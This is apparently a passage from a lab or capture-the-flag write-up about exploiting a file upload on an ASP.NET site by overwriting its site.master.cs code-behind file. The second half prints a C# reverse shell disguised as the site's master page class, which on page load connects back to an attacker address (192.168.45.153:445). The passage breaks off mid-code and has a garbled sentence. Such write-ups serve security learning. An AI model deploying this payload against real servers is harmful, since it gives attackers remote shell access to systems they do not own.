 The contents of the `site.master.txt` file was in C#:

```csharp
<%@ Language="C#" src="site.master.cs" Inherits="MyNamespaceMaster.MyClassMaster" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
	<head runat="server">
		<title>Butch</title>
		<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
		<meta name="application-name" content="Butch">
		<meta name="author" content="Butch">
		<meta name="description" content="Butch">
		<meta name="keywords" content="Butch">
		<link media="all" href="style.css" rel="stylesheet" type="text/css" />
		<link id="favicon" rel="shortcut icon" type="image/png" href="favicon.png" />
	</head>
	<body>
		<div id="wrap">
			<div id="header">Welcome to Butch Repository</div>
			<div id="main">
				<div id="content">
					<br />
					<asp:contentplaceholder id="ContentPlaceHolder1" runat="server"></asp:contentplaceholder>
					<br />
				</div>
			</div>
		</div>
	</body>
</html>
```

Seems that the website is written in C#, and the file that we upload replaces the . We need to note that this inherits `MyNamespacemaster.MyClassMaster`, so our code probably needs to include that. I tested by uploading some random C# files, and it caused the site to no longer work.

This means that this file upload might be overwriting the `site.master.cs` file within the machine, and we need to upload a reverse shell in C#. I used this C# reverse shell script:

```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System.Collections.Generic;
using System.Linq;
using System.Web;
using System.Web.UI;
using System.Web.UI.WebControls;

namespace MyNamespaceMaster
{
        public partial class MyClassMaster : MasterPage
        {
                static StreamWriter streamWriter;

                protected void Page_Load(object sender, EventArgs e)
                {
                        using(TcpClient client = new TcpClient("192.168.45.153", 445))
                        {
                                using(Stream stream = client.GetStream())
```